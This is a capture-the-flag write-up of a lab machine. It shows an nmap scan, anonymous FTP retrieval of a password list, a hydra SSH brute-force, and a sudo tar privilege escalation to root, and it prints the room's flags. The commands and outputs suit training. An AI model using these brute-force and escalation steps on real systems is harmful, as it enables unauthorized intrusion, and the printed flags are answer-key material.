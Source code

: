 
You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!



## Writeup

1) Started out with nmap scan and found:



```shell
$ nmap -sS -O 10.10.12.96

Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-19 09:35 EST
Nmap scan report for 10.10.12.96 (10.10.12.96)
Host is up (0.20s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
Aggressive OS guesses: Linux 2.6.32 - 3.13 (93%), Linux 4.15 (93%), Linux 3.10 - 4.11 (91%), Android 9 - 10 (Linux 4.9 - 4.14) (90%), Linux 3.2 - 4.14 (90%), Linux 4.15 - 5.19 (90%), Linux 2.6.32 - 3.10 (90%), HP P2000 G3 NAS device (89%), Linux 5.0 - 5.14 (89%), Infomir MAG-250 set-top box (88%)
No exact OS matches for host (test conditions non-ideal).

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.76 seconds

```


2) Logged into ftp as Anonymous:

```shell
$ ftp 10.10.12.96
```


3) In FTP, I listed the files and got two txt files which i then transfered it into my machine using get command.

```shell
ftp> ls
locks.txt
task.txt

ftp> get locks.txt task.txt
```


4) I read both the files:

```shell
$ cat locks.txt

rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e

```


```shell
$ cat task.txt

1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

Success! I found out the username of the user!

and it seems there is a possible number of password for the SSH!

5) I tried bruteforcing using hydra:

```shell
$ hydra -l lin -P ~/Downloads/locks.txt -t 6 ssh://10.10.12.96
```

Output:

```shell
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-19 09:50:56
[DATA] max 6 tasks per 1 server, overall 6 tasks, 26 login tries (l:1/p:26), ~5 tries per task
[DATA] attacking ssh://10.10.12.96:22/
[22][ssh] host: 10.10.12.96   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-19 09:51:05

```

Success!! We cracked the password too!


6) Now time to login and see:

```shell
──(itsjustme㉿kali)-[~/Downloads]
└─$ ssh lin@10.10.12.96 -p 22  
The authenticity of host '10.10.12.96 (10.10.12.96)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.12.96' (ED25519) to the list of known hosts.
lin@10.10.12.96's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}

```


GOT the first flag!!!


7) Now on to the root.txt flag!

8) What now left is to find a way to escalate our privileges on the box to become root and eventually capture root flag.

> Try using the command:  
> sudo -l

![](https://miro.medium.com/v2/resize:fit:1000/1*iYundfpW5z7pLoUBBV4_IA.png)

Superb! Now we know that the user lin has the permission to run the /bin/tar as root. That could be immensely helpful for us to escalate privileges.

My first spot is to always go to [https://gtfobins.github.io/](https://gtfobins.github.io/) look for possible privilege escalation commands for elevating the privileges for a specific binary with special permissions.  
Search tar in the search bar and click on tar scroll down to SUDO.

![](https://miro.medium.com/v2/resize:fit:700/1*QDNqNMIY2LBIfn5ZLr1TIw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*BAnNHDNXL27Ub7Y0yxZDEg.png)

Always read the description. It looks pretty good to me. Can’t resist running it and getting root. Let’s see. Fingers crossed.

> sudo tar -cf /dev/null /dev/null — checkpoint=1 — checkpoint-action=exec=/bin/sh

![](https://miro.medium.com/v2/resize:fit:700/1*Cr-M_qa11rDuNNo6LJC1KA.png)

We have successfully elevated our privileges.  
We can confirm we are root now.

9) then just use ls and cat command to get the flag!

```shell
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# ls
user.txt
# cd /
# ls
bin    dev   initrd.img      lib64       mnt   root  snap  tmp  vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr  vmlinuz.old
cdrom  home  lib             media       proc  sbin  sys   var
# cd root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
# Connection to 10.10.12.96 closed by remote host.
Connection to 10.10.12.96 closed.

```

THERE WE GOOOO!!

THE END





